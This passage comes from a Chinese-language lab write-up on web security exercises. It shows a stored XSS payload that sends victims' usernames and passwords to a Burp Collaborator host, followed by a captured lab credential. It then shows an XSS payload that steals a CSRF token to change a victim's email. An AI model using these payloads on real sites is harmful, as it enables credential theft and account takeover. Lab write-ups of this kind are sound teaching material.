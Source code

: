 我的是：
&lt;input name=username id=username&gt;
&lt;input type=password name=password onchange="if(this.value.length)fetch('https://qqkybew56kd84w6ny0l6yjhpfgl69v.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"&gt;</code></pre>
此脚本将使查看评论的任何人向公共Collaborator服务器的子域发出包含其用户名和密码的POST请求


<hr/>
part3：
返回Collaborator选项卡，然后刷新，看到HTTP交互<br/> 记下POST主体中受害者的用户名和密码的值。
<pre>`administrator:9yl3ow6km9ix24rkz7mk`</pre>


<hr/>
part4：
解决实验
进行登陆操作
<img alt="" height="722" src="https://img-blog.csdnimg.cn/c77df84426b04d24a800aea3c62f1166.png" width="1200"/> 登陆成功完成实验



---


---


> 
<h3>实验16：利用XSS实现CSRF</h3>
信息：
本实验在博客评论函数中包含一个已存储的XSS漏洞。要解决此实验问题，请利用此漏洞执行CSRF攻击，并更改查看博客帖子评论的用户的电子邮件地址。
已有账号：wiener:peter
<hr/>
part1:
登陆已有账号测试功能

在HTTP历史记录中找到数据包


<hr/>
part2：
构造XSS
攻击需要加载用户帐户页面，提取CSRF令牌，然后使用该令牌更改受害者的电子邮件地址
<pre><code>&lt;script&gt;
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&amp;email=test@test.com')
};
&lt;/script&gt;</code></pre>
